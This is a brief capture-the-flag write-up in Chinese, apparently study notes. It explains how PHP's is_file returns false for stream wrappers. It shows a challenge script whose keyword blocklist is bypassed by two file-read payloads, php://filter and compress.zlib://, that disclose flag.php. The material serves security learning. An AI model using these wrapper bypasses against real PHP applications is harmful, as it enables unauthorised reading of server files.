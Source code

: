 # 知识点
### is_file
[https://www.php.net/manual/zh/function.is-file.php](https://www.php.net/manual/zh/function.is-file.php)
:::tips
当用使用封装器伪协议时，is_file返回为false<br />is_file("php://filter/resource=flag.php")<br />-> false<br />但file_get_content以及file_put_content无影响
:::
# 思路
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
```php
方法一 ?file=php://filter/resource=flag.php
方法二 ?file=compress.zlib://flag.php
```
![image.png](./images/20231017_2349506746.png)
